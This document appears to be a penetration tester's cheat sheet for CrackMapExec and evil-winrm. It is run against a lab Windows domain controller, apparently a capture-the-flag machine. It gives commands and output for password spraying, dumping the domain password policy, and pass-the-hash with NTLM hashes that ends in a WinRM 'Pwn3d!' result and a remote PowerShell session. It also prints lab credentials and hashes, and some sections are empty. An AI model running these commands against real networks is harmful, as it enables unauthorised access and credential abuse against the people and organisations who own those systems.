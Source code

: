 [CrackMapexec | SMB & AD Enumeration Simplified !](https://systemweakness.com/crackmapexec-smb-ad-enumeration-simplified-21e603927f44)

https://wiki.porchetta.industries/

https://ptestmethod.readthedocs.io/en/latest/cme.html

https://github.com/Porchetta-Industries/CrackMapExec/wiki/SMB-Command-Reference

# 

### TL;DR
```
cme smb $ip -u users.txt -p sT333ve2
cme smb $ip -u users.txt -p sT333ve2 --continue-on-success
```

### [Dump password policy with "--pass-pol"](#dump-password-policy-with---pass-pol-1)
cme smb $ip -u support -p '#00^BlackKnight' --pass-pol

### [Pass-the-Hash (PtH) with "-H"](#pass-the-hash-pth-with--h--successful)
cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

### [Pass the hash (PtH)](https://attack.mitre.org/techniques/T1550/002/)
> Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password.

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [PtH with evil-winrm](#pth-with-evil-winrm-1)
evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d


```
--continue-on-success
                        continues authentication attempts even after successes
```


## CrackMapexec v5.4.0 (2023.1-3) doesn't work well. Update latest version manually
```
$ cat /etc/os-release 
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2023.3"
VERSION="2023.3"
...
```

### Installation

https://github.com/mpgn/CrackMapExec

https://wiki.porchetta.industries/getting-started/installation

https://wiki.porchetta.industries/getting-started/installation/installation-on-unix

```

```

### 
```

```

### Examples
### Dump password policy with "--pass-pol"
```
$ cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Dumping password info for domain: BLACKFIELD
SMB         10.10.10.192    445    DC01             Minimum password length: 7                                                                                         
SMB         10.10.10.192    445    DC01             Password history length: 24                                                                                        
SMB         10.10.10.192    445    DC01             Maximum password age: 41 days 23 hours 53 minutes                                                                  
SMB         10.10.10.192    445    DC01                                                                                                                                
SMB         10.10.10.192    445    DC01             Password Complexity Flags: 000001                                                                                  
SMB         10.10.10.192    445    DC01                 Domain Refuse Password Change: 0                                                                               
SMB         10.10.10.192    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.10.192    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Complex: 1
SMB         10.10.10.192    445    DC01             
SMB         10.10.10.192    445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.10.192    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.192    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.10.192    445    DC01             Account Lockout Threshold: None
SMB         10.10.10.192    445    DC01             Forced Log off Time: Not Set
```

### Pass-the-Hash (PtH) with "-H" ; STATUS_LOGON_FAILURE
```
$ cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
```

### Pass-the-Hash (PtH) with "-H" ; Successful
```
$ cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

### WINRM Pwn3d!
```
$ cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

### [PtH with evil-winrm](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
```
$ evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

### 
```

```